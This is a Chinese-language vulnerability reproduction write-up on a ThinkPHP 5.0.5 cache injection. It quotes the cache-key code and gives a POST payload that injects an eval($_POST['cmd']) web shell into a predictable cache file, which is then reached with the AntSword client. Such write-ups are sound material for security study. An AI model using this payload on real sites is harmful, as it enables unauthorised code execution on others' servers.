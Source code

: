 ```yaml
---
title: Thinkphp 5.0.5 缓存漏洞
id: zhfly3160
---
```


# Thinkphp 5.0.5 缓存漏洞

## 一、漏洞简介

## 二、漏洞影响

Thinkphp 5.0.5

## 三、复现过程

### 漏洞分析

*   漏洞代码与3.2.3差不多，不一样的在缓存目录

    ```
    protected function getCacheKey($name)
        {
            $name = md5($name);
            if ($this->options['cache_subdir']) {
                // 使用子目录
                $name = substr($name, 0, 2) . DS . substr($name, 2);
            }
            if ($this->options['prefix']) {
                $name = $this->options['prefix'] . DS . $name;
            }
            $filename = $this->options['path'] . $name . '.php';
            $dir      = dirname($filename);
            if (!is_dir($dir)) {
                mkdir($dir, 0755, true);
            }
            return $filename;
        } 
    ```

*   在index控制器写如下代码：

![image](../img/f02690dc5f2f315e8de21db35bb35f19.png)

*   之后访问 `http://www.0-sec.org/public/index.php/Home/index`POST数据：`con=%0aeval($_POST['cmd']);%0d//`
*   最终在 `runtime/cache/b0/68931cc450442b63f5b3d276ea4297.php`文件生成shell：

![image](../img/585ccdc98e3d4a77f6d1129518926c69.png)

之后访问蚁剑 `http://www.0-sec.org/runtime/cache/b0/68931cc450442b63f5b3d276ea4297.php`

![image](../img/64f52c726b205ed9fae1d14dc7be7833.png)

### 小结

### Thinkphp5.0.5

1.  漏洞文件位置(一般审计得出)

    `http://www.0-sec.org/public/index.php/Home/Index/index`

    POST数据 :`con=%0d%0aeval($_POST['cmd']);%0d%0a//`

2.  缓存文件位置b0文件夹是md5(cache-name)前2位。

    `http://www.0-sec.org/runtime/cache/b0/b068931cc450442b63f5b3d276ea4297.php`

3.  蚁剑连接

## 参考链接

> [https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10%E7%BC%93%E5%AD%98%E6%BC%8F%E6%B4%9E/](https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10%E7%BC%93%E5%AD%98%E6%BC%8F%E6%B4%9E/)